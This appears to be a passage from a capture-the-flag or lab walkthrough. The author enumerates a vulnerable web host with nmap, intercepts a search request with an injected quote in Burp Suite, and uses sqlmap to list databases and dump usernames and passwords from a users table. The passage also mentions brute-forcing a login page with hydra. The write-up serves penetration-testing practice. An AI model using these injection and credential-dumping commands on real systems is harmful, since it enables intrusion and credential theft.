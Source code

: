 All 3 scans returned nothing that seemed of use, just the directories */includes/* & */css/*.

### Website Exploration

Once looking at the website, there were a couple of interesting things that I noticed.

1. The website seems to have the domain - example.com
     * I could maybe try to map the IP address to the domain and then run an nmap scan again to see if there are any other directories. 
2. On the */display.php* page, it seems like it is just dumping an entire database table.
     * I could try to use sqlmap to dump the database table.
3. There is a login page at `manage.php`
     * I could try to run a hydra scan to brute force the login page.


I first began by remapping the IP address to the domain name via the hosts file.
```bash
sudo vim /etc/hosts

## Add the following line
192.168.1.10 example.com
```

Next I ran the same nmap scan as above, but using the domain
```bash
nmap -A -p0-65535 example.com

sudo nmap -sC -sV -A -O -p- -T4 -script http-enum example.com
```

However, neither of these returned anything different so I decided to change the domain back to the IP address and move onto sqlmap.

### SQL

1. Burpsuite --> Proxy --> Intercept tab --> Open Browser and go to http://192.168.1.10/search.php
2. In the search bar, type `1'` (don't press enter yet)
3. In Burpsuite, turn on the intercept, THEN press enter in the search bar.
4. Save the output to a file called `search.txt`
5. Run sqlmap on the search.php page
```bash
sqlmap -r search.txt --dbs
```

CASH. This returned the following database names:
* *information_schema*
* *Staff*
* *users*

Let's first check out the *users* database.
```bash
# Check what tables are in the 'users' database
sqlmap -r search.txt -D users --tables

# Check what columns are in the 'UserDetails' table (from the 'users' database)
sqlmap -r search.txt -D users -T UserDetails --columns

# Display username + password from the 'UserDetails' table (from the 'users' database)
sqlmap -r search.txt -D users -T UserDetails -C username,password --dump
```
